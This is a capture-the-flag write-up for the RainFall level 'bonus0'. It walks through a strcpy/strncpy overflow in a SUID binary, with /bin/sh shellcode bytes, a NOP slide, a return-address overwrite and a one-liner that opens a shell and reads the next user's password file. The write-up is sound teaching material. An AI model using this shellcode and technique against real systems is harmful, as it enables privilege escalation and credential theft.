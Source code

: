 # Level bonus 0

## Vulnerability

strcpy() heap overflow

## Context

We find a binary with owner ```bonus1``` and SUID.
```
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```
When run it seems to accept 2 seperate inputs on stdin, and print them with a space between.
```
bonus0@RainFall:~$ ./bonus0
 -
wait...
 -
what?
wait... what?
```

## Solution

Longer strings reveal the buffer overflow weakness.
```
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```
Investigating with gdb we find main calls ```pp()```.  <br />
```pp()``` calls ```p()``` twice (which reads from stdin) and ```strcpy()```. <br />

```p``` reads 4096 bytes into a buffer, then uses ```strncpy()``` to return the first 20 bytes. <br />
```strncpy()```'s return is not null-terminated if the source is longer than destination. <br />

Then, ```pp()``` calls ```strcpy()``` on ```strncpy()```'s return string... but it's not null-terminated. <br />
Without null termination ```strcpy()``` continues past the first string (string ```a```) into whatever else is on the stack (string ```b```). 
This leads to us overflowing the main buffer, overwriting the EIP return address, and segfaulting.

Let's try to write our malicious code (which opens a shell) in the first string.
Then use the second string to overflow and write the address of our malicious code.

Using [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) we create our malicious code. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

### Find EIP offset

Then we need to find the EIP offset where to write the address of our malicious code. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 9.
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9...
Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
The buffer is 42 bytes (0x40 - 0x16), so we want to overwrite the return address at buffer[54].

### Find buffer address

To find the address of our malicious code
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) disas p
...
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax ; buffer address
...
(gdb) break *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe640:	0x00000000
```
The buffer starts at ```0xbfffe640```. We will create a large NOP slide leading to our malicious code, so lets overwrite EIP wih an address somewhere on the NOP slide, let's say buffer + 100 ```0xbfffe6a4``` = "\xa4\xe6\xff\xbf".

### Build exploit strings

So we want to craft our first string:
1. A large NOP slide buffer leading to our malicious code - ```'\x90' * 3000```
2. our malicious shell code - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

And our second string:
1. A buffer until we reach EIP - ```'B' * 14```
2. Address on NOP slide leading to our malicious code - ```\xa4\xe6\xff\xbf```
3. buffer single byte - ```'B'```

Lets provide these two to the binary.
```
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
Here is a handy one liner:
```
(python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
```

## Recreate Exploited Binary

As user ```bonus1```, in ```/tmp```, create and compile ```bonus0_source.c```
```
bonus1@RainFall:/tmp$ gcc bonus0_source.c -fno-stack-protector -z execstack -o bonus0_source
```
Edit permissions including suid, then move the binary to home directory.
```
bonus1@RainFall:/tmp$ chmod u+s bonus0_source; chmod +wx ~; mv bonus0_source ~
```
Exit back to user ```bonus0```, then pipe our exploit into the source. Luckily, p()'s buffer address is similar, so the return address doesn't need updating.
```
bonus1@RainFall:/tmp$ exit
exit
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | /home/user/bonus1/bonus0_source
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
```

